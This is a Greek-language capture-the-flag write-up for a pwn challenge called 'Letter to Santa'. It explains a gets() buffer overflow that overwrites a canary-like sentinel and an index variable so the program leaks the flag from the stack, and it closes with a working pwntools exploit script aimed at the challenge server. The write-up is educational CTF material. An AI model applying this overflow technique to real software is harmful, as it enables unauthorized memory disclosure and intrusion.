 Title: &emsp;Letter to Santa\
\
Description:&emsp;Last chance for your Christmas gift. What are you waiting for?\
\
Author:&emsp; N0_Sp3c14l_Ch4r
\
\
Αρχικά ελέγχουμε τα mitigations του εκτελέσιμου.\
\
![image](https://github.com/Babafaba/NTUA_H4CK_crypto_challs/assets/56980206/996f27da-9b12-4f7e-8e0f-3c3f408334ca)

Παρατηρούμε πως το binary έχει γίνει compiled χωρίς canary αλλά με Pie, NX και Partial Relero. Από αυτά, εν τέλει δε θα μας χρειαστεί κάτι.

Ανοίγουμε το δοσμένο binary με Ghidra (ωωωωω ναι!!). Βλέπουμε πως αποτελείται μόνο από τη συνάρτηση `main` η οποία παρουσιάζεται κάτωθι.\
![image](https://github.com/Babafaba/NTUA_H4CK_crypto_challs/assets/56980206/d0f4ce73-dbc0-422f-b9c1-f58cacdb9d2f)
\
![image](https://github.com/Babafaba/NTUA_H4CK_crypto_challs/assets/56980206/dbad24e9-df1f-487d-8025-d1b5dc95ca35)\
\
Παρατηρώντας τον κώδικα βλέπουμε πως χρησιμοποιεί τη συνάρτηση `gets()` προκειμένου να διαβάσει το input του χρήστη. Συνεπώς, έχουμε απευθείας buffer overflow.\
Θέλουμε να διαβάσουμε το `flag.txt` το οποίο όπως βλέπουμε είναι αποθηκευμένο στο stack. Κοιτώντας λίγο προσεκτικότερα τον κώδικα, βλέπουμε πως αφού δώσει το input ο χρήστης, στη συνέχεια αυτό τυπώνεται με ανάποδη φορά, από το τελευταίο byte προς το πρώτο. Ειδικότερα, αυτό φαίνεται στην ακόλουθη εικόνα.\
\
![image](https://github.com/Babafaba/NTUA_H4CK_crypto_challs/assets/56980206/944738c4-c0a1-4d5f-9055-80c9ee3608e1)\
\
Εξαιτίας του buffer overflow όμως, μπορούμε μέσω της υπερχείλισης να κάνουμε overwrite την τιμή της μεταβλητής `local_44` με μία αυθαίρετη τιμή. Ιδανικά θα θέλαμε αυτή να λάβει αρνητική τιμή (το πρόγραμμα την ερμηνεύει ως `int`). Έτσι το `local_88[0x3f - local_44]` θα διάβαζε πιο κάτω από τον πίνακα `local_88` (που περιέχει το input του χρήστη). Θέτοντας την κατάλληλη τιμή μπορούμε να διαβάσουμε τα περιεχόμενα του stack σε ένα συγκεκριμένο offset. Επομένως, μπορούμε να κάνουμε το πρόγραμμα να μας επιστρέψει τα περιεχόμενα του πίνακα `local_40`, τα οποία δεν είναι άλλα από το **flag**.\
\
Μένει ένα τελευταίο σημείο να προσέξουμε.\
\
![image](https://github.com/Babafaba/NTUA_H4CK_crypto_challs/assets/56980206/2cd9a22b-bf32-45d7-9470-dfa54441eec0)\
\
Αφού ο χρήστης δώσει το input, το πρόγραμμα ελέγχει την τιμή της μεταβλητής `local_48` και αν αυτή είναι διάφορη από την αρχική `0xFFBADDEB`, τότε τερματίζει καταλαβαίνοντας πως κάποιο Overflow έχει συμβεί. Αυτό προφανώς δεν είναι ιδιαίτερο πρόβλημα, καθώς μπορούμε κάλλιστα κατά το overflow να υπερχειλίσουμε τη μεταβλητή `local_48` με την τιμή αυτή και μετά να προχωρήσουμε στην  υπερχείλιση της μεταβλητής `local_44` που αναφέραμε παραπάνω.\
\
Συνολικά δηλαδή πρέπει κατά το overflow:
* Να υπερχειλίσουμε την τιμή της μεταβλητής `local_48` με `0xFFBADDEB = 4290436587`
* Να υπερχειλίσουμε την τιμή της μεταβλητής `local_44` με κάποια αρνητική τιμή η οποία θα μας επιτρέχει να διαβάσουμε όλο το **flag**. Προσέχουμε εδώ πως το πρόγραμμα τυπώνει ανάποδα, άρα θα πρέπει η τιμή του `local_88[0x3f - local_44]` να δείχνει στη χειρότερη στον τελευταίο χαρακτήρα του flag\
  \
  Όλα τα παραπάνω συνοψίζονται στο ακόλουθο Python script.
```Python
#N0_Sp3c14l_Ch4r

from pwn import *

#padding
pay = b'A' * 64

#overwrite local_48
pay += p32(4290436587)

#overwrite local_44
pay += p32(0xFFFFFFCC)

#connect
r = remote('0.cloud.chals.io', 32966)

#send input
r.sendlineafter(b'> ', pay)
r.recvline()
a = r.recvuntil(b'}')

#print in reverse
flag = r.recvuntil(b'H')
print(b'N'+flag[::-1]+b'}')

#PWNED
```
\
Εκτελώντας το παραπάνω, λαμβάνουμε:\
\
![image](https://github.com/Babafaba/NTUA_H4CK_crypto_challs/assets/56980206/322a51d4-615c-4ed3-b8ee-0fd58f818673)

